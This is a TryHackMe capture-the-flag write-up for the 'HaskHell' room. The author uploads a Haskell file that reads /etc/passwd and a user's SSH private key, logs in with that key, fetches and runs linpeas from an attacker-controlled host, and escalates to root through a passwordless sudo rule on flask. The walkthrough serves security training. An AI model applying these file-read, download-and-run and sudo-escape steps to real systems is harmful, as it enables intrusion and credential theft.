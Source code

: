 ```yaml
---
title: Tryhackme - HaskHell | EN
author: batmanly
date: 2022-05-30 10:10:00 +3
categories: [Writeup, TryHackme]
tags: [web, flask, haskell, tryhackme, writeup]
render_with_liquid: false
---
```


# Information

## Room

- **Name:** HaskHell
- **Profile:** [HaskHell](https://tryhackme.com/room/haskhell)
- **Difficulty:** Medium
- **Description**: Show your professor that his PhD isn't in security.

![[]](/assets/img/tryhackme/haskhell/haskell_logo.png)

## Overview

It's a nice room , that you can use haskell and read file inside server . Previlege escalation step was easy actually that you can access root so fast .

# Write-up

Let's start enumeration and see what we can gather.

## Network enumeration

`Port` and `service` scan with nmap:

```bash
nmap -T4 -sV -sS  -v -p- 10.10.238.6  -sC -oN HaskHell
```

`Output:`

```

# Nmap 7.92 scan initiated Mon May 30 09:26:16 2022 as: nmap -n -Pn -T4 -sV -sS -v -p- -sC -oN HaskHell 10.10.238.6
Nmap scan report for 10.10.238.6
Host is up (0.084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

it's look we just have ssh and http open with different port , let's go and enumerate http port.

## Web enumeration

Discovering `directories` and `files` with go buster.

```
gobuster dir -u http://10.10.238.6:5001/ -w $BIG -t 50

```

Let's enumerate files and folders then:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.6:5001/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/30 09:31:01 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]

===============================================================
2022/05/30 09:32:11 Finished
===============================================================
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530093249.png)
We found submit directory let's go and see what's there. we realized that server is waiting our haskell file for compile and return result.
we can try to upload haskhell file and try to read file or get reverse shell , i tried get reverse shell but server givin 500 message , so after time i tried reading files it's look we have permission to read file, so lets' get to work and first read /etc/passwd and see what user we can enumerate than we will read this user ssh private key for connect to server with ssh . We can use burpsuite for that we can manipulate easily request and response.

```
http://10.10.238.6:5001/submit

```

upload this file , read_file.hs .

```haskell
import System.Process
main = do
   let file_to_read = "/etc/passwd"
   contents <- readFile file_to_read
   putStrLn contents

```

after upload file we can read passwd.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095710.png)
let's go and read user's id_rsa file. we can enumeate user after start 1000 for this file.
i found that we can read prof id_rsa file .
change read_file.hs to read '/home/prof/.ssh/id_rsa' and get ssh private key.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095913.png)

## Web exploitation

let's use this ssh private key to connect server.

```bash
chmod 600 haskhell
ssh prof@10.10.238.6 -i haskhell
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530100047.png)

## Previlege Escalation

let's upload [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and look if we can get any previlege escalation point to root or other user.

```bash
# Run Python Server
python3 -m http.server 80

# Get Linpeas
wget http://10.8.199.191/linpeas.sh

# Run Linpeas
chmod +x linpeas.sh
./linpeas.sh

```

we found that we can run flask with sudo without password , so let's get root shell from there.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101111.png)

```bash
echo 'import pty;pty.spawn("/bin/bash")' > shell.py
export FLASK_APP=shell.py
sudo /usr/bin/flask run
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101354.png)

![[]](/assets/img/tryhackme/haskhell/root.gif)

Yep. Now we Got root.
Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
